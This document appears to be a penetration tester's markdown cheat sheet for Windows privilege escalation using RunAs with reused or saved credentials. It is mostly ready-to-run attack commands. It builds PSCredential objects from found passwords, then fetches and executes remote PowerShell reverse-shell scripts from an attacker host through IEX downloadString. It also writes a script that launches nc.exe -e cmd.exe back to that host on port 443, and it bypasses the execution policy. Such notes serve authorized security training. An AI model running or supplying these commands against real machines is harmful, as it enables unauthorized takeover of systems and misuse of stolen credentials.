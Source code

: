 ####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[Python#Server]]

[[rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**


Say we already have Alice's (Local Admin member) password, we can execute cmd as her.

[[rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = '$PASSWORD' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```command prompt - target
echo Start-Process 'C:\Users\$USER\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```command prompt - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```command prompt - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```command prompt - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

#### RunAs via cmdkey
```command prompt - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[Python#Server]]

![[rlwrap]]

```command prompt - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```


